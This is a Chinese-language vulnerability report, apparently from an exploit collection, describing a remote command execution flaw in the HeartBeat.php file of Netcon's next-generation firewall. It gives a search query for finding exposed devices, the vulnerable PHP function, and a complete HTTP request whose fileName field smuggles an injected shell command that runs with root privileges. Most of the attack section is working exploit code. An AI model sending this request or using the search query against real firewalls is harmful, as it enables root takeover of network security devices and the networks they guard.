



# 网康 下一代防火墙 HeartBeat.php 远程命令执行漏洞

## 漏洞描述

网康 下一代防火墙 HeartBeat.php文件存在远程命令执行漏洞，攻击者通过构造请求包即可获取服务器Root权限

## 漏洞影响

```
奇安信 网康下一代防火墙
```

## 网络测绘

```
app="网康科技-下一代防火墙"
```

## 漏洞复现

登录页面如下


出现漏洞的文件 applications/Models/NS/Rpc/HeartBeat.php



```
public function delTestFile($fileName){
	    if(dirname($fileName) == '/var/www/tmp'){
		$cmd = "/bin/rm -f {$fileName}";
		putenv("CMD=$cmd");
		$msg = shell_exec('/var/www/html/scripts/exec_cmd');
	    }
	    return time();
	}
```

调用方法 delTestFile，fileName参数可控，调用的 exec_cmd 文件为Root权限文件，构造请求包进行命令执行

```
POST /directdata/direct/router HTTP/1.1
Host: 
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"NS_Rpc_HeartBeat","method":"delTestFile","data": ["/var/www/tmp/1.txt;id>2.txt"],"type":"rpc","tid":11,"f8839p7rqtj":"="}
```



访问写入的文件

